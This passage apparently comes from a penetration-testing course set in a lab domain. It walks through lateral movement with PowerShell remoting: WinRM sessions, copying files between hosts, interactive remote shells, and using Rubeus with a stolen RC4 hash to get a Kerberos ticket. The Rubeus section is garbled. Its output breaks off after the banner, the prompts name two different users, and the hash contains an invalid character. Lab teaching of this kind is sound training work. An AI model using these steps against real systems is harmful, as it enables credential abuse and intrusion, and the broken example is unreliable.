 SRV02
</code></pre>
<h2>Copy Files</h2>
<p>PowerShell provides robust functionality for copying files between systems, which is especially useful during lateral movement. One effective way to achieve this is by using PowerShell remoting sessions over WinRM. This approach allows for secure and efficient file transfers between remote systems.</p>
<p>To copy files using a PowerShell session, you first need to establish a remote session with the target machine. This can be done using the <a href="https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7.4">New-PSSession</a> cmdlet. Let's create a variable and name it <code>$sesionSRV02</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; $sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential
</code></pre>
<p>Once the session is established, we can use the <code>Copy-Item</code> cmdlet to copy from or to the target machine. To copy a file in our current machine (SRV01) to the target machine (SRV02), we need to use the command <code>-ToSession &lt;sessionVariable&gt;</code> to specify the path of the file we want to transfer with the option <code>-Path &lt;local file&gt;</code> and the destination on the target machine with the option <code>-Destination &lt;path remote machine&gt;</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\helen\Desktop\Sample.txt' -Destination 'C:\Users\helen\Desktop\Sample.txt' -Verbose
VERBOSE: Performing the operation "Copy File" on target "Item: C:\Users\helen\Desktop\Sample.txt Destination: C:\Users\helen\Desktop\Sample.txt".
</code></pre>
<p>If we want to do the opposite and copy a file from the target machine, we need to use <code>-FromSession &lt;sessionVariable&gt;</code>:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose
VERBOSE: Performing the operation "Copy File" on target "Item: C:\Windows\System32\drivers\etc\hosts Destination: C:\Users\helen\Desktop\host.txt".
</code></pre>
<h3>Interactive Shell</h3>
<p>We can use the <code>Enter-PSSession</code> cmdlet for an interactive shell using PowerShell remoting. This cmdlet allows us to initiate an interactive session with the remote computer, either by using a session created with <code>New-PSSession</code>, specifying explicit credentials, or leveraging the current session where the command is executed. For instance, let's reuse the <code>$sessionSRV02</code> variable we previously created. Specifying the <code>Enter-PSSession</code> and the variable will give us an interactive PowerShell prompt on the remote computer, allowing us to execute commands as if we were logged in directly.</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt; Enter-PSSession $sessionSRV02
[SRV02]: PS C:\Users\helen\Documents&gt;
</code></pre>
<h3>Using Hashes and Tickets with WinRM</h3>
<p>Additionally, we can also use kerberos tickets to connect to PowerShell remoting. To do this we will use <code>Rubeus</code>. First we need to forge our TGT. Let's use <code>Leonvqz</code> hash to forge a new ticket:</p>
<pre><code class="language-powershell-session">PS C:\Tools&gt;  .\Rubeus.exe asktgt /user:leonvqz /rc4:3223DS033D176ABAAF6BEAA0AA681400 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/


[SRV02.inlanefreight.local]: PS C:\Users\Leonvqz\Documents&gt; hostname
[srv02.inlanefreight.local]: PS C:\Users\Helen\Documents&gt;